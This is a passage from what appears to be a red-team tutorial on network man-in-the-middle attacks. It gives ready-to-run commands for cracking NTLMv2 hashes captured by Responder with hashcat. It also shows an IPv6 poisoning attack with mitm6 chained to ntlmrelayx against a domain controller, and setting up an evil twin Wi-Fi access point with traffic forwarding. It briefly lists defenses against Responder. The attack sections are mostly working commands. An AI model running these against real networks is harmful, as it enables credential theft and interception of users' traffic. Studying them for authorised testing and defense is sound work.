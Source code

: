 6. Crack the captured hashes:

```bash
# Format the hashes for hashcat
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-*.txt > captured_hashes.txt

# Crack with hashcat
hashcat -m 5600 captured_hashes.txt /usr/share/wordlists/rockyou.txt
```

This attack is effective because:
- Most Windows networks still use LLMNR and NBT-NS for name resolution
- These protocols are enabled by default and fall back to broadcast queries
- The authentication uses a challenge-response method that exposes password hashes
- Most users aren't aware when their system is attempting to authenticate

Defenses against Responder attacks include:
- Disabling LLMNR and NBT-NS at the domain level
- Implementing Network Access Control (NAC)
- Using network segmentation and proper DNS configuration
- Deploying monitoring to detect poisoning attacks

## Advanced MITM Techniques

Beyond the tools covered above, consider these additional MITM techniques for red team operations:

### 1. IPv6 MITM with mitm6

```bash
# Install mitm6
git clone https://github.com/fox-it/mitm6.git
cd mitm6
pip install -e .

# Run a basic attack
sudo mitm6 -d company.local

# Combine with ntlmrelayx for relay attacks
sudo ntlmrelayx.py -6 -t ldaps://dc01.company.local -wh fakewpad.company.local -l loot
```

This technique exploits Windows' preference for IPv6 over IPv4, even in IPv4-only networks.

### 2. Evil Twin Access Points

```bash
# Create a rogue access point
sudo airmon-ng start wlan0
sudo airbase-ng -e "Corporate WiFi" -c 1 wlan0mon

# Set up DHCP
sudo dhcpd -cf /etc/dhcp/dhcpd.conf at0

# Enable IP forwarding
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
